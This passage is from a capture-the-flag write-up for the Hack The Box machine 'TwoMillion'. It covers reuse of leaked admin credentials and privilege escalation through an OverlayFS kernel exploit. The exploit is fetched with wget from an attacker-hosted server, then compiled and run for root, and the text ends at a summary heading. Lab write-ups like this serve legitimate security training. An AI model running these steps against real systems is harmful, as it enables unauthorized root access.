 ![env_credentials](GitHubv2/HackTheBox/EASY/TwoMillion/screenshots/env_credentials.png)

This file contains the admin credentials. We also retrieve the **user flag**:

![user_flag](GitHubv2/HackTheBox/EASY/TwoMillion/screenshots/user_flag.png)

---
## 7. Privilege Escalation

Searching for files owned by `admin`:

```bash
find / -user admin 2>/dev/null | grep -vE "sys|proc"
```

![find_user](GitHubv2/HackTheBox/EASY/TwoMillion/screenshots/find_user.png)

We discover `/var/mail/admin`, which contains a hint about an unpatched **OverlayFS vulnerability**.

We download the exploit from GitHub, host it with Python, and transfer it:

```bash
python3 -m http.server 80
wget http://10.10.14.7/file.zip
unzip file.zip
make all
```

![unzip_file_in_victims_machine](GitHubv2/HackTheBox/EASY/TwoMillion/screenshots/unzip_file_in_victims_machine.png)
![execute_make_all](GitHubv2/HackTheBox/EASY/TwoMillion/screenshots/execute_make_all.png)

Log in as admin via SSH using the leaked credentials:

![ssh_admin](GitHubv2/HackTheBox/EASY/TwoMillion/screenshots/ssh_admin.png)

Execute the exploit:

```bash
./exp
```

![root_flag](GitHubv2/HackTheBox/EASY/TwoMillion/screenshots/root_flag.png)

✅ **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path
